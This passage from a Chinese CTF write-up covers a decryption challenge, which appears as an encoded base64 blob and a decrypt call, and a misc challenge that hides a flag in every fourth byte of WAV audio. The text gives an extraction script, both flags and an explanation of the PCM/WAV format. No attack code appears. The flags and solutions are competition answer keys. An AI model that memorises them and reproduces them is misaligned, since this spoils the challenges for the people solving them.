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'

print(decrypt(base64.b64decode(data), d).hex())
```

输出为十六进制再放进 CyberChef 比较好看。



🚩 `DASCTF{B916CFEB-C40F-45D6-A7BC-EBOFDELQDIAA}`

# Misc - hiden

[附件下载](https://files.xinshi.fun/yangcheng-2024/hiden.7z)

随波逐流发现 ROT47 后与 Python 代码相似，再 ROT13 得到

```python
import wave 

with open('flag.txt', 'rb') as f:
    txt_data = f.read()
    file_len = len(txt_data)
    txt_data = file_len.to_bytes(3, byteorder = 'little') + txt_data

with wave.open("test.wav", "rb") as f:
    attrib = f.getparams()    
    wav_data = bytearray( f.readframes(-1) )

for index in range(len(txt_data)):
    wav_data[index * 4] = txt_data[index]
    
with wave.open("hiden.wav", "wb") as f:
    f.setparams(attrib) 
    f.writeframes(wav_data)
```

据此读出数据

```python
import wave 

with wave.open("hiden.wav", "rb") as f:
    attrib = f.getparams()    
    wav_data = f.readframes(-1)

txt_data = []
for index in range(0, 400, 4):
    txt_data.append(wav_data[index])

print(bytes(txt_data))
# b'K\x00\x00ok\xef\xbc\x8cnow you find me,so the flag give you\r\n\r\n\r\nDASCTF{12jkl-456m78-90n1234}\x02\xff\xff\xc0\xff\xffl\xff\xffC\xff\xff4\xff\xffx\xff\xff\xa9\xff\xff\xb6'

```

拿到 flag 了，顺带一提，WAV 存的是未压缩的每个采样点的原始数据，也没有数据校验，具体可以看 [BaseCTF Week1 官方 Writeup](https://j0zr0js7k7j.feishu.cn/docx/U2dVdIOTCoLrp9xaYCrcEEbkndh) 中我的“捂住X只耳”题目 Writeup

> mp3 是压缩了的音频格式，而 pcm（脉冲编码调制）则是没有被压缩的、记录每一个采样点音量的格式，它没有文件头、从第一个字节开始就是第一个采样点的数据。所以 pcm 不知道采样率（每秒多少个采样点），不知道声道数量，不知道位宽（0%-100%对应于0000-1111，还是对应于00000000-11111111，还是……），不知道字节序（大端序/小端序）。对于双声道，它的存储方式是左声道一个采样点，然后右声道一个采样点，然后左声道一个采样点，以此反复。wav 就是在 pcm 前面加一个文件头，保存这些信息，后面就是和 pcm 完全一样的。

所以这题实际上是这样存的：



🚩 `DASCTF{12jkl-456m78-90n1234}`
